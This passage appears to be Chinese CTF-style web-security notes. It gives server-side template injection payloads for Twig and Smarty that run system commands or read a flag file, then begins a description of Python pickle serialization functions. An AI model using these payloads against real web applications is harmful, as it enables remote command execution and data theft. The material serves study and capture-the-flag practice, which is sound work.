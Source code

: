 #### Twig

~~~
使用{# comment #}判断，这是注释。并不会回显。


{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
~~~

**Smarty**

~~~
般情况下输入{$smarty.version}就可以看到返回的smarty的版本号
{system('cat /flag')}
~~~



## python序列化（。。。。）

pickle序列化：

> pickle提供了一个简单的持久化功能。可以将对象以文件的形式存放在磁盘上。
>
> pickle模块只能在python中使用，python中几乎所有的数据类型（列表，字典，集合，类等）都可以用pickle来序列化，
> pickle序列化后的数据，可读性差，人一般无法识别。
>
> 

```
Pickle模块中最常用的函数为：

（1）pickle.dump(obj, file, [,protocol])

        函数的功能：将obj对象序列化存入已经打开的file中。

       参数讲解：

    obj：想要序列化的obj对象。
    file:文件名称。
    protocol：序列化使用的协议。如果该项省略，则默认为0。如果为负值或HIGHEST_PROTOCOL，则使用最高的协议版本。

（2）pickle.load(file)

        函数的功能：将file中的对象序列化读出。

        参数讲解：

    file：文件名称。

（3）pickle.dumps(obj[, protocol])

       函数的功能：将obj对象序列化为string形式，而不是存入文件中。

       参数讲解：

    obj：想要序列化的obj对象。
    protocal：如果该项省略，则默认为0。如果为负值或HIGHEST_PROTOCOL，则使用最高的协议版本。

（4）pickle.loads(string)

       函数的功能：从string中读出序列化前的obj对象。

       参数讲解：

    string：需要序列化读出的字符串。
```
